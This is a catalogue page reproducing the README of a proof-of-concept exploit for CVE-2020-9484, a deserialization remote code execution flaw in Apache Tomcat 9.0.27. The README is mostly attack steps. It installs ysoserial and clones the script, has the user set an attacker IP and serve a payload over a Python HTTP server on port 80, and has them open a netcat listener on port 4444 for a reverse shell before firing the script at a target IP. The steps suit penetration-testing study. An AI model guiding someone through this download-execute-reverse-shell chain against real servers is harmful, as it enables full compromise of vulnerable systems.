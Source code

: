 # CVE-2020-9484

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/PenTestical](https://github.com/PenTestical) |
| Url      | [https://github.com/PenTestical/CVE-2020-9484](https://github.com/PenTestical/CVE-2020-9484)                                               |
| Stars    | 19                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Remote Code Execution Exploit in Apache Tomcat 9.0.27

Apache Tomcat 9.0.27 is vulnerable to Remote Code Execution with the CVE-ID CVE-2020-9484. Other versions may be affected as well. Tested on Kali 2020.4 and JDK 8. This bash script is a simpel proof-of-concept. For educational purpose only.

## Description

The vulnerability allows a remote attacker to execute arbitrary code on the target system.

The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

Successful exploitation of this vulnerability may result in complete compromise of vulnerable system but requires that the server is configured to use PersistenceManager with a FileStore and the attacker knows relative file path from storage location.

## Requirements

In order to use the script, [yoserial](https://github.com/frohoff/ysoserial) is needed. To install it:

`cd /opt && git clone https://github.com/frohoff/ysoserial`

`cd /opt/ysoserial && wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master.jar`

If you have yoserial already installed, make sure to rename it to "yosorial-master.jar".

## Installation

To install the script, type:

`cd /opt && git clone https://github.com/PenTestical/CVE-2020-9484 && cd CVE-2020-9484/ && chmod +x CVE-2020-9484.sh`

## Help menu

To open the help menu, type:

`./CVE-2020-9484.sh --help`

or

`./CVE-2020-9484.sh -h`


## How to use it

First, open the script and place your own IP address at line 14:

`remote_ip="10.10.16.180" 	# change this`

This script creates the files "payload.sh", "downloadPayload.session", "chmodPayload.session" and "executePayload.session" in the same directory as you currently are. In order to use the exploit, you need to start a simpel listener at port 80. For example, usage with Python3 (start in same folder as you run the script):

`sudo python3 -m http.server 80`

Also, make sure to start a netcat listener at port 4444:

`nc -nvlp 4444`

Now run the script with the IP address of the target system you want to attack:

`./CVE-2020-9484.sh target-ip`

## Troubleshooting

If it does not work, make sure to use JDK 8. To test which version you use, type:

`java -version`

Could not work on JDK version 12 or higher. Read more about it [here](https://github.com/frohoff/ysoserial/issues/107).



## Get the content

```
git clone https://github.com/PenTestical/CVE-2020-9484
cd CVE-2020-9484
```

{% embed url="https://github.com/PenTestical/CVE-2020-9484" %}

<figure><img src="https://avatars.githubusercontent.com/u/57206134?v=4" alt=""><figcaption><p>PenTestical</p></figcaption></figure>
